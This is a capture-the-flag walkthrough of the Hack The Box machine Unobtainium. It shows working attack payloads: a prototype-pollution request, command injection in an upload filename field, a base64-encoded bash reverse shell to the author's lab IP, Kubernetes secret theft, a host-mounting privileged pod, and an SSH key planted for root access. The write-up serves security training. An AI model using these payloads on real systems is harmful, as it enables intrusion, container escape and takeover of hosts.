

# Unobtainium

This is the write-up for the box Unobtainium that got retired at the 4th September 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.235    unobtainium.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/unobtainium.nmap 10.10.10.235
```

```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0e:a6:a7:8b:ce:2d:28:da:e1:11:5b:0b:95:ab:ec:8c (RSA)
|   256 9e:be:8d:7c:f8:03:8c:e8:4e:cc:15:95:43:23:68:67 (ECDSA)
|_  256 52:56:cf:e1:bb:c3:ce:06:d6:61:6c:18:4c:b0:30:2a (ED25519)
80/tcp    open  http          Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Unobtainium
|_http-server-header: Apache/2.4.41 (Ubuntu)
8443/tcp  open  ssl/https-alt
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 401 Unauthorized
(...)
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=k3s/organizationName=k3s
| Subject Alternative Name: DNS:kubernetes, DNS:kubernetes.default, DNS:kubernetes.default.svc, DNS:kubernetes.default.svc.cluster.local, DNS:localhost, DNS:ubuntu, DNS:unobtainium, IP Address:10.10.10.235, IP Address:10.129.136.59, IP Address:10.43.0.1, IP Address:127.0.0.1
| Not valid before: 2022-02-15T11:09:56
|_Not valid after:  2023-02-15T12:00:26
31337/tcp open  http          Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
| http-methods:
|_  Potentially risky methods: PUT DELETE
```

## Checking HTTP (Port 80)

The web service on port 80 advertises a _"Simple, responsive, high availability, multi-platform chat application by Unobtainium"_ and offers to download three ZIP archives:
- unobtainium_debian.zip
- unobtainium_redhat.zip
- unobtainium_snap.zip

They each contain either a _deb_, _rpm_ or _snap_ package that can be installed on the used distribution:
```
dpkg -i unobtainium_1.0.0_amd64.deb
```

The application can be dynamically analyzed after running it with the `unobtainium` command.



## Analysis of Electron Application

This application is built with **Electron** and in the menu _Todo_ are some potential hints:
```
{"ok":true,"content":"
1. Create administrator zone.\n
2. Update node JS API Server.\n
3. Add Login functionality.\n
4. Complete Get Messages feature.\n
5. Complete ToDo feature.\n
6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n
7. Improve security\n"}
```

After sending a post in the menu _Post Messages_, they appear in the _Message Log_ menu:
```
{"icon":"__","text":"test","id":2,"timestamp":1654689788679,"userName":"felamos"}]
```

By analyzing the traffic of the application with **Wireshark**, it shows that it communicates with the service on port 31337 and sends HTTP requests there.

HTTP request after posting a message:
```
PUT / HTTP/1.1
Host: unobtainium.htb:31337
(...)
Content-Type: application/json

{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"test 2"}}HTTP/1.1 200 OK
```

HTTP request data when inspecting the _Todo_ menu:
```
{"auth":{"name":"felamos","password":"Winter2021"},"filename":"todo.txt"}
```

The application sends clear-text credentials and seemingly checks a static file _todo.txt_ on the server.
Lets use a proxy like **Burpsuite** to intercept and modify the data to find vulnerabilities.
```
Proxy --> Options --> Add Proxy Listener
```
```
Bind to port: 31337
Bind to address: Loopback only
Redirect to host: 10.10.10.235
Redirect to port: 31337
```

Modifying hostname in the _/etc/hosts_ file:
```
127.0.0.1       unobtainium.htb
```

After restarting the application, all requests are intercepted by our proxy and can be modified.
When sending no filename, it shows an error message:
```
POST /todo HTTP/1.1
Host: unobtainium.htb:31337
(...)

{"auth":{"name":"felamos","password":"Winter2021"},"filename":""}
```

In this error message, it discloses the directory and filenames of some JavaScript files:
- _/usr/src/app/index.js_
- _/usr/src/app/node_modules/express/lib/router/layer.js_
- _/usr/src/app/node_modules/express/lib/router/route.js_
- _/usr/src/app/node_modules/express/lib/router/index.js_

The files in _/usr/src/app/node_modules_ cannot be read, but _index.js_, which means that the current directory is _/usr/src/app/_.

### Analyzing JavaScript

In the source code of _index.js_, there is an upload feature that uses the NPM package [google-cloudstorage-commands](https://www.npmjs.com/package/google-cloudstorage-commands) which is deprecated:
```
var root = require(\"google-cloudstorage-commands\");
(...)
root.upload(\"./\",filename, true);
```

When checking the [source of this package](https://github.com/samradical/google-cloudstorage-commands/blob/master/index.js#L7), there is an upload function that uses _exec_ to run system commands.

In the source code of _index.js_ it shows that the _PUT_ method uses _.merge_ which is vulnerable to **Prototype Pollution** and allows to inject code into objects as explained in [this blog article](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c):
```
(...)
_.merge(message, req.body.message, {
  id: lastId++,
  timestamp: Date.now(),
  userName: user.name,
(...)
```

Posting a message and changing the _canUpload_ variable to _true_ with **Prototype Pollution**:
```
PUT / HTTP/1.1
Host: unobtainium.htb:31337
(...)

{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"test","__proto__":{"canUpload":true} }}
```

Using command injection on _/upload_ with a `ping` command:
```
POST /upload HTTP/1.1
Host: unobtainium.htb:31337
(...)

{"auth":{"name":"felamos","password":"Winter2021"},"filename":"; ping -c 1 10.10.14.3;"}
```

The `tcpdump` listener on my IP receives ICMP packets and command execution is proofed.

Encoding reverse shell command with Base64:
```
echo 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' | base64 -w 0
```

Sending reverse shell command to _/upload_:
```
{"auth":{
  "name":"felamos",
  "password":"Winter2021"
  },
  "filename":"; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQo= | base64 -d | bash"}
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _root_.
This box has the hostname _webapp-deployment-9546bc7cb-g7w65_ and the IP 10.42.1.24, so it is not the host box yet.

## Lateral Movement

As the initial Nmap scan showed, this is a **Kubernetes** cluster and the [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux) command line tool is needed to interact with the Kubernetes infrastructure.

Downloading `kubectl` to the pod and making it executable:
```
wget 10.10.14.3:8000/kubectl

chmod +x kubectl
```

Checking permissions for resources:
```
./kubectl auth can-i --list
```
```
Resources         Non-Resource URLs     Resource Names    Verbs
namespaces        []                    []                [get list]
```

Listing all namespaces:
```
./kubectl get namespaces
```
```
NAME              STATUS
default           Active
kube-system       Active
kube-public       Active
kube-node-lease   Active
dev               Active
```

Checking permissions for the namespace _dev_:
```
./kubectl auth can-i --list -n dev
```
```
Resources         Non-Resource URLs     Resource Names    Verbs
namespaces        []                    []                [get list]
pods              []                    []                [get list]
```

Listing all pods of _dev_:
```
./kubectl get pods -n dev
```
```
NAME                                  READY   STATUS        RESTARTS
devnode-deployment-776dbcf7d6-hzwt6   1/1     Running       2 (3h27m ago)
devnode-deployment-776dbcf7d6-7dxk5   1/1     Running       2 (3h27m ago)
devnode-deployment-776dbcf7d6-ld62v   1/1     Running       2 (3h27m ago)
```

Enumerating information out of all pods:
```
./kubectl describe pod devnode-deployment-776dbcf7d6-hzwt6 -n dev
./kubectl describe pod devnode-deployment-776dbcf7d6-7dxk5 -n dev
./kubectl describe pod devnode-deployment-776dbcf7d6-ld62v -n dev
```

The pods have the following IPs and all of them have port 3000 open:
- 10.42.1.25
- 10.42.1.26
- 10.42.1.27

The response of port 3000 is the name as the application from before, but this is the development version as it seems:
```
curl -v 10.42.1.25:3000
```

So by exploiting the same vulnerability, it is possible to move laterally to the pods:
```
curl -i -s -k -X $'PUT' \
    -H $'Host: unobtainium.htb:31337' -H $'Connection: close' -H $'Content-Length: 109' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36' -H $'Content-Type: application/json' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US' \
    --data-binary $'{\"auth\":{\"name\":\"felamos\",\"password\":\"Winter2021\"},\"message\":{\"text\":\"test\",\"__proto__\":{\"canUpload\":true} }}' \
    $'http://10.42.1.25:3000/'
```
```
curl -i -s -k -X $'POST' \
    -H $'Host: unobtainium.htb:31337' -H $'Connection: close' -H $'Content-Length: 147' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36' -H $'Content-Type: application/json' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US' \
    --data-binary $'{\"auth\":{\"name\":\"felamos\",\"password\":\"Winter2021\"},\"filename\":\"; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQo= | base64 -d | bash\"}' \
    $'http://10.42.1.25:3000/upload'
```

After sending both requests, the listener on my IP and port starts a reverse shell on _devnode-deployment-776dbcf7d6-7dxk5_ as _root_.

### Lateral Movement 2

After downloading `kubectl` binary onto the pod, it also can be enumerated as the one before.

Checking permissions for resources:
```
./kubectl auth can-i --list
```

Checking permissions for the namespace _kube-system_:
```
./kubectl auth can-i --list -n kube-system
```
```
Resources         Non-Resource URLs       Resource Names      Verbs
secrets           []                      []                  [get list]
```

Listing the _secrets_ from _kube-system_:
```
./kubectl get secrets -n kube-system
```

There are many secrets, but the _c-admin-token-9mn8w_ sounds especially interesting:
```
./kubectl describe secrets c-admin-token-9mn8w -n kube-system
```

With this token it is possible to create pods:
```
./kubectl --token=$(cat /tmp/token) auth can-i create pods -n kube-system
```

With this permission, we can create a pod with the disk of the host mounted to it and then modify files there to move to the host system.

Creating YAML file _pod.yml_ that contains all configurations for the new pod:
```yml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: evilpod
    imagePullPolicy: Never
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Creating new pod with YAML file:
```
./kubectl --token=$(cat /tmp/token) apply -f pod.yml
```

Making sure it runs successfully:
```
./kubectl --token=$(cat /tmp/token) get pods -n kube-system

NAME        READY   STATUS        RESTARTS       AGE
alpine      1/1     Running       0              1m
```

Starting a shell in the new pod:
```
./kubectl exec alpine --stdin --tty -n kube-system --token=$(cat /tmp/token) -- /bin/sh
```

Creating _.ssh_ directory in the _/root_ directory and adding our public SSH key into _authorized_keys_:
```
mkdir /mnt/root/.ssh

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAA(...)" > /mnt/root/.ssh/authorized_keys
```

The changes are done on the host box and it is possible to login into the box as root!
```
ssh -i unobtainium 10.10.10.235
```
